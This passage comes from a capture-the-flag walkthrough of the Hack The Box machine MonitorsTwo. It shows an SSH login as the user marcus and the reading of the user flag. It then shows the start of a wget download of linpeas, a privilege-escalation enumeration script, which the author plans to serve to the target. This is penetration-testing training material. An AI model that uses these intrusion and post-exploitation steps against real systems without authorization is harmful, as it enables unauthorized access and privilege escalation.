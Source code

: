 Even though he's a portal user, he seems to have trouble logging in, but it's much better if you use him to log in over **ssh**!

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ ssh marcus@10.10.11.211                                                                                                        
    The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
    ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
    marcus@10.10.11.211's password: 
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon 15 May 2023 09:02:46 PM UTC
    
      System load:                      0.0
      Usage of /:                       64.1% of 6.73GB
      Memory usage:                     34%
      Swap usage:                       0%
      Processes:                        292
      Users logged in:                  1
      IPv4 address for br-60ea49c21773: 172.18.0.1
      IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
      IPv4 address for docker0:         172.17.0.1
      IPv4 address for eth0:            10.10.11.211
      IPv6 address for eth0:            dead:beef::250:56ff:feb9:ff04
    
      => There is 1 zombie process.
    
    
    Expanded Security Maintenance for Applications is not enabled.
    
    0 updates can be applied immediately.
    
    Enable ESM Apps to receive additional future security updates.
    See https://ubuntu.com/esm or run: sudo pro status
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    You have mail.
    Last login: Mon May 15 20:40:13 2023 from 10.10.14.169
    marcus@monitorstwo:~$ cat user.txt 
    2******************************a

Thus obtaining the user flag! At first glance, it seems like I can't do much with this user, so let's download **linpeas** and make it available from our native **php** web server.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.211 - MonitorsTwo (lin)/attack/upld]
    └─$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.sh                               
    --2023-05-16 15:36:42--  https://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.sh
    Resolving github.com (github.com)... 140.82.121.4
    Connecting to github.com (github.com)|140.82.121.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/1f1f0080-bb74-490c-ac12-16e66dcb0699?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230516%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230516T193601Z&X-Amz-Expires=300&X-Amz-Signature=267efcd94629b388ffc0decf9f86725f34b28929ad55df95f9a745fcb504ef9d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=165548191&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]